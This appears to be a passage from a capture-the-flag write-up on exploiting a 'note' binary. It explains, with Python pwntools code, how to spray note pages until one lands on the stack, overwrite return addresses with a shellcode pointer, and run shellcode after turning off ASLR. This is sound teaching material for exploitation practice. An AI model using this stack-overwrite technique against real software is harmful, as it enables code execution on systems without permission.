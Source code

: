 My current guess is that initially, the operating system allocates the stack space as described in the `/proc/$PID/maps` file, which is why `vfprintf_internal` is confident clobbering that memory; I'm fairly confident as well that `0x470` comes from the stack frame plus some offset, so from the eyes of `vfprintf_internal`, we're changing memory which no stack frame has, so when we do stack entry we'll just overwrite that data with something belonging to the next stack frame.

However, who knows?
I couldn't find very much information googling around for such a thing, other than "do not do this".

# Implementation
This solution tends to find the flag at around 1000-1500 page creation attempts total.
This solution is also in `python3`; translation to `python2` to run on the server and get the flag is left to the reader.

This code is fairly clean, as it's mainly a wrapper around the `note` binary along with some common-sense extensions that are relevant to the solution, such as `fill_mem_table` and `clear_mem_table` in order to handle the systematic filling and clearing of the mem table until we find the solution.

The only function, if any, that would need a description would be the following:
```python
    def fill_mem_table(self):
        shellcode_loc = self.shellcode_page()
        [self.create_page() for _ in range(255)]
        locs = [self.get_page_loc(outp) for outp in
                    self.p.clean().split(b'1. create note')[:-1]]

        for i in range(len(locs)):
            self.current_attempt += 1
            print(self.current_attempt, hex(locs[i]))

            if (locs[i] >= self.stack_curr) or (locs[i] + PAGE_SIZE >= self.stack_curr):
                print('lucky s_mmap; grabbing flag...')
                self.write_page(str(i+1).encode(), p32(shellcode_loc) * 1023)
                self.note_exit()
                print(self.p.clean(10).decode())
                exit(0)
```

We first need our shellcode somewhere, hence the first call to `shellcode_loc`.
Then, we do mass page creation before requesting everything in a batch, in order to greatly reduce the overhead from `clean` as our way of getting output from the process.
If we ever write to the stack, we certainly can infect at least one of the return pointers on the stack, hence the mass write of the addresses.
We then call `note_exit` to bubble everything up, hit one of these infected addresses, and ret to our shellcode, giving us the flag!

Also, clearly, every single time we call any function, we add onto our callstack, hence the `self.stack_curr` variable; it's used for bookkeeping, to know our win window.

```python
import time
from sys import exit
from pwn import *

"""
remember to echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
before running in order to turn off aslr, as spec'd in readme
"""

# from /proc/{PID}/maps
INITIAL_STACK = 0xffffe000
PAGE_SIZE = 4096

class Note:
    """
```